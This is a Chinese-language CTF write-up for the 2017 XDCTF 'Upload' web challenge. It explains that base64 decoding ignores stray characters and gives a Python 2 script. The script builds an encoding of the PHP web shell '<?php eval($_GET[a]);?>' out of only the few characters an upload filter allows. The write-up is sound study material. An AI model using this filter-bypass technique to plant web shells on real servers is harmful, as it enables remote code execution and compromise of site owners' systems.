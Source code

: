 ```yaml
---
title: 2017 XDCTF  Upload
tags: [write-up]
date: 2017-10-06 00:46
---
```

比赛早就结束了，有个web题目一直没想到怎么写直到官方发题解才知道，原来还有这一个套路（其实是一个知识点的），好久没有写博客了要长草了，写个博客记录一下
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><p>比赛早就结束了，有个web题目一直没想到怎么写直到官方发题解才知道，原来还有这一个套路（其实是一个知识点的），好久没有写博客了要长草了，写个博客记录一下</p>
<h1 id="0x01-base64-little-trick">0x01 base64 little trick</h1>
<p>在base64解码的时候其他多余字符是自动被忽略的 <br>
例如下图</br></p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20171006002338596?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h1 id="0x02-文件上传分析">0x02 文件上传分析</h1>
<p>上传的文件我们可以看出过滤了大部分字符，只有actgACTG没有被过滤 <br>
猜想是利用这几个字符构造webshell，但是当时不知道小trick所以没有想到写脚本。</br></p>
<h1 id="0x03-脚本编写">0x03 脚本编写</h1>
<p>根据base64的小trick，写一个通用的脚本达到任意几个字符就可以构造webshell的目的</p>
<p>下面来分析一下脚本的编写</p>
<p>实现的过程是这样的，因为base64是四字节对齐所以我们用4字节进行全排列，然后解码找出只有一个合法字符的原字符串（生成字典），直到遍历完全排列的字符串，去掉值重复的值，本轮结束，查看有没有包含shellcode所需要的所有字符如果有直接输出。没有继续重复上述操作，并在接下来的每一步的最后来一个字符串映射。</p>
<p>具体脚本如下：</p>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-keyword">import</span> itertools
<span class="hljs-keyword">import</span> string
<span class="hljs-keyword">import</span> sets
<span class="hljs-keyword">import</span> base64


<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">permutation</span><span class="hljs-params">(strs)</span>:</span>
    strings = []
    <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> itertools.permutations(strs,<span class="hljs-number">4</span>):
        s = <span class="hljs-string">''</span>.join(i)
        strings.append(s)
    <span class="hljs-keyword">return</span> strings

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">create_dic</span><span class="hljs-params">(strs)</span>:</span><span class="hljs-comment">#1 利用字符串创造字典</span>
    dic =  {i:base64.b64decode(i) <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> permutation(strs)}
    <span class="hljs-keyword">return</span> dic


<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">clac_shouldbe</span><span class="hljs-params">(dic)</span>:</span><span class="hljs-comment">#2 筛选字典中value的值留下只有一个合法字符的键值对</span>
    <span class="hljs-comment"># print dic</span>
    new = {}
    should_be = string.ascii_uppercase+string.ascii_lowercase+string.digits+<span class="hljs-string">'='</span>+<span class="hljs-string">'/'</span>+<span class="hljs-string">'+'</span>
    <span class="hljs-keyword">for</span> key <span class="hljs-keyword">in</span> dic:
        set1 = sets.Set(should_be)
        set2 = sets.Set(dic[key])
        Intersect = <span class="hljs-string">''</span>.join(set1 &amp; set2)
        <span class="hljs-keyword">if</span> len(Intersect) == <span class="hljs-number">1</span>:
            new[key]=Intersect
    <span class="hljs-keyword">return</span> new

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">remove_Dup</span><span class="hljs-params">(dic)</span>:</span><span class="hljs-comment">#3 去value重复的键值对</span>
    mid = {dic[key]:key <span class="hljs-keyword">for</span> key <span class="hljs-keyword">in</span> dic}
    dic = {mid[key]:key <span class="hljs-keyword">for</span> key <span class="hljs-keyword">in</span> mid}
    <span class="hljs-keyword">return</span> dic

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">new_strs</span><span class="hljs-params">(dic)</span>:</span><span class="hljs-comment">#去重之后生成新的字符串</span>
    s = <span class="hljs-string">''</span>
    <span class="hljs-keyword">for</span> key <span class="hljs-keyword">in</span> dic:
        s += dic[key]
    <span class="hljs-keyword">return</span> s.replace(<span class="hljs-string">'='</span>,<span class="hljs-string">''</span>)

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">strs_replaces</span><span class="hljs-params">(dic1,dic2)</span>:</span><span class="hljs-comment">#4 字符串映射 </span>
    revs = {dic1[key]:key <span class="hljs-keyword">for</span> key <span class="hljs-keyword">in</span> dic1}
    <span class="hljs-keyword">return</span> {revs[key[<span class="hljs-number">0</span>]]+revs[key[<span class="hljs-number">1</span>]]+revs[key[<span class="hljs-number">2</span>]]+revs[key[<span class="hljs-number">3</span>]]:dic2[key] <span class="hljs-keyword">for</span> key <span class="hljs-keyword">in</span> dic2}

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">test_already</span><span class="hljs-params">(str1,str2)</span>:</span><span class="hljs-comment">#判断时候全部包含shellcode所需要的值</span>

    set1 = sets.Set(str1)   
    set2 = sets.Set(str2)
    Intersect = <span class="hljs-string">''</span>.join(set1 &amp; set2)

    <span class="hljs-comment"># print Intersect</span>

    <span class="hljs-keyword">if</span>(len(Intersect) == len(set1)):
        <span class="hljs-keyword">return</span> <span class="hljs-number">1</span>
    <span class="hljs-keyword">else</span>:
        <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>



shell = <span class="hljs-string">"&lt;?php eval($_GET[a]);?&gt;"</span>
shell = base64.b64encode(shell)
shell_base = <span class="hljs-string">'PD9waHAgZXZhbCgkX0dFVFthXSk7Pz4='</span>

strs = <span class="hljs-string">'1234'</span>
<span class="hljs-comment">#strings what you want to make up shellcode with</span>



dic = remove_Dup(clac_shouldbe(create_dic(strs)))
strs = new_strs(dic)
<span class="hljs-comment"># print dic</span>
<span class="hljs-comment">#create nonredundant value of dict ,once to decode</span>



<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">6</span>):
    <span class="hljs-keyword">print</span> <span class="hljs-string">"Has based "</span>+str(i) +<span class="hljs-string">' times '</span>
    dic1 = remove_Dup(clac_shouldbe(create_dic(strs)))
    strs = new_strs(dic1)
    dic = strs_replaces(dic,dic1)
    <span class="hljs-comment"># print dic</span>
    <span class="hljs-keyword">if</span> test_already(shell_base,strs+<span class="hljs-string">'='</span>):
        <span class="hljs-keyword">break</span>
<span class="hljs-keyword">print</span> <span class="hljs-string">"Has based "</span>+str(i+<span class="hljs-number">1</span>) +<span class="hljs-string">' times ,you have decode '</span>+str(i+<span class="hljs-number">1</span>+<span class="hljs-number">1</span>)+<span class="hljs-string">' times '</span>


revs = {dic[key]:key <span class="hljs-keyword">for</span> key <span class="hljs-keyword">in</span> dic}
<span class="hljs-keyword">print</span> <span class="hljs-string">'++++++++++++++++++++++++\n'</span>
<span class="hljs-keyword">print</span> <span class="hljs-string">''</span>.join(revs[i] <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> shell_base)
</code></pre>
<h1 id="0x04-测试">0x04 测试</h1>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20171006004324727?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20171006004452502?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h1 id="0x05-总结">0x05 总结</h1>
<p>确实是一个巧妙的方法，有学习了一个姿势</p></div>